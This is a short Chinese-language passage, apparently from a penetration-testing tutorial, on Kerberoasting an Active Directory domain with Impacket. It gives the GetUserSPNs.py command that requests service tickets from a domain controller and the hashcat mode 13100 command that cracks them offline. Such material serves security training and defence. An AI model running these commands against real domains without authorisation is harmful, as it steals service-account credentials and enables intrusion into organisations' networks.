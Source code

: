 
##### Impacket 进行Kerberoasting

这里要用到**impacket**工具包，该工具包用于对SMB1-3或IPv4 / IPv6 上的TCP、UDP、ICMP、IGMP，ARP，IPv4，IPv6，SMB，MSRPC，NTLM，Kerberos，WMI，LDAP等协议进行低级编程访问。这里我们使用的是GetUserSPNs工具，可使用该工具对目标主机进行SPN探测

~~~http
https://github.com/SecureAuthCorp/impacket               官方仓库https://github.com/maaaaz/impacket-examples-windows      有人已将各个脚本打包成相应的exe,此处绝大部分也都将全部用这些exe单文件来进行操作
~~~

命令

~~~python
python GetUserSPNs.py -request -dc-ip x.x.x.x 域名称/域用户
~~~



~~~
hashcat64.exe –m 13100 test1.txt password.list --force
~~~





















































